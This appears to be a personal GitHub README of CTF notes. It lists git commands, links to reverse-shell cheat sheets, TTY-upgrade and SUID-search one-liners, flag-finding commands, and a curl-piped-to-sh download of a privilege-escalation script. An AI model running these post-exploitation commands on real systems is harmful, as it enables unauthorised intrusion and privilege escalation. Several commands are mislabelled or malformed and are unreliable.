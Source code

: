# Random
Just a zunk of notes

###  Github command

```bash
git init                                                      
git remote add origin "Paste the link of the github"          
git remote -v                                                 
git add .                                                     
git commit -m "Name of the tool/subjet"                       
git push origin master.
```
### CTF Helper
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
```bash
https://gtfobins.github.io/
```
```bash
https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
```
### Python TTY Shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
### Bash Shell
```bash
echo os.system('/bin/bash')
```
### shell-PostExploitation
```bash
find / -perm -u=s -type f 2>/dev/null
```
### To clear terminal after spwanning shell
```bash
export TERM=xterm
```
### Auto-complete fuction after gettting shell

### Abusing SUID 
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
### Find command to find flags
```bash
stty raw - echo ; fg 
```
### Find Flags
```bash
→ find | grep flag 
→ find / -type f -name user.txt
→ find / -type -f name **name of the flag you want**
→ search -f flag*.txt #This will find the name called flag with file extension txt
```
### Quick Linux Privilege Escalataion
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
→ chmod +x linpeas.sh 
→ ./linpeas.sh
```
